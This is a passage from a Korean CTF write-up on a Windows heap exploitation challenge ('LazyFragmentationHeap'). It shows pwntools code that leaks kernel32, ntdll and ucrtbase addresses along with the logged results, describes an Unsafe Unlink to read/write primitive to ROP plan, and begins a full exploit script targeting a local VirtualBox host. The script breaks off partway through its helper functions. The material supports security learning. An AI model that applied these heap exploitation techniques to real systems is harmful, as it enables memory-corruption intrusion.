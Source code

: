 ```python
ucrtbase = leak(lazy_base+0x30b0) - 0x0f760  # ucrtbase!free

log.info("kernel32 = 0x%016x" % kernel32)
log.info("ntdll    = 0x%016x" % ntdll)
log.info("ucrtbase = 0x%016x" % ucrtbase)

'''
[*] LazyFragmentationHeap = 0x00007ff76f400000
[*] kernel32 = 0x00007ffd09140000
[*] ntdll    = 0x00007ffd09b00000
[*] ucrtbase = 0x00007ffd075e0000
'''
```

필요한 모듈주소를 모두 leak 했으니 이제 마지막 익스플로잇 단계만 남았습니다.

공격기법은 [3.10. Allocate/Free Non-LFH chunk](#310-Allocate/Free-Non-LFH-chunk)에서 언급한대로 Unsafe Unlink 기법을 이용해 R/W primitive를 만들어서 ROP를 해야하는데, 이후의 부분은 LFH보단 일반적인 Heap Feng-Shui에 가깝기 때문에 설명은 코드에 달린 주석으로 생략할려고 합니다.

근데 이거저거 재밌는게 많아서 이부분은 직접 한번 해보시는걸 추천해드립니다!

```python
from pwn import *

# context.log_level = "debug"

# HOST = "192.168.56.102" # VirtualBox Host-Only Adapter
HOST = "192.168.0.18" # VirtualBox Bridge 
PORT = 6677
SIZE = 0xC8 # yes, I intend korean slang

hi = None
sla = None

def alloc(chunk_id, size):
    sla("Your choice: ", str(1))
    sla("Size:", str(size))
    sla("ID:", str(chunk_id))

def edit(chunk_id, val, need_newline=True):
    sla("Your choice: ", str(2))
    sla("ID:", str(chunk_id))
    if need_newline:
        sla("Content:", val)
    else:
        hi.sendafter("Content:", val)

def show(chunk_id):
    sla("Your choice: ", str(3))
    sla("ID:", str(chunk_id))
    return hi.recvline().strip()[9:]

def free(chunk_id):
    sla("Your choice: ", str(4))
    sla("ID:", str(chunk_id))

def open_file():
    sla("Your choice: ", str(5))
    sla("Your choice: ", str(1))
    sla("Your choice: ", str(3))

def read_file(chunk_id, size, go_back=True):
    sla("Your choice: ", str(5))
    sla("Your choice: ", str(2))
```
